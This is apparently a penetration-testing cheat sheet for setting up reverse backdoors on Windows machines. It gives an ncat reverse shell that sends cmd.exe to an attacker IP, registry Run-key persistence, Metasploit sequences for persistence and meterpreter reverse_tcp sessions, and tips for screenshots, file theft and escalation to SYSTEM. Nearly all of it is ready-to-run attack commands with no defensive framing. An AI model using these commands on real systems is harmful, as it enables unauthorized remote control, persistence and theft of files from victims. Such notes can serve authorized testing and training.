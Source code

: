 #### Reverse Backdoor using ncat
Attacker:
```bash
ncat -l -p 5555 -v
```
Victim (the IP of the attacker):
```bash
ncat -e cmd.exe 192.168.1.66 5555
```
Tip: For persistent reverse backdoor use the registry key `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

#### Reverse Backdoor using Metasploit
```bash
msfconsole
use exploit/windows/local/s4u_persistence
show options
sessions
set session <session-id>
set trigger logon
set payload windows/meterpreter/reverse_tcp
set lhost <local-ip>
set lport 1234
exploit
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set lhost <local-ip>
set lport 1234
exploit
sysinfo
ps
help
```
Tip: once we get a shell we can use `screenshot` to get a picture of what the victim is seeing on the Desktop  
Tip: once we get a shell we can use `download filename location` to save the filename in the specified location on our machine  
Tip: Same syntax as above but use `upload` to upload files  
Tip: Use `getsystem` to gain the highest privilege (i.e. SYSTEM) on the compromised machine and `getuid` to check if it actually worked.

#### Upgrading a simple shell
```bash
bash -i
```
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

#### Maintaining access using Metasploit (Windows)
Inside a meterpreter session:
  - `background`
  - `use exploit/windows/local/persistence_service`
  - `show options`
  - `set SESSION <session-id>`
  - `exploit`

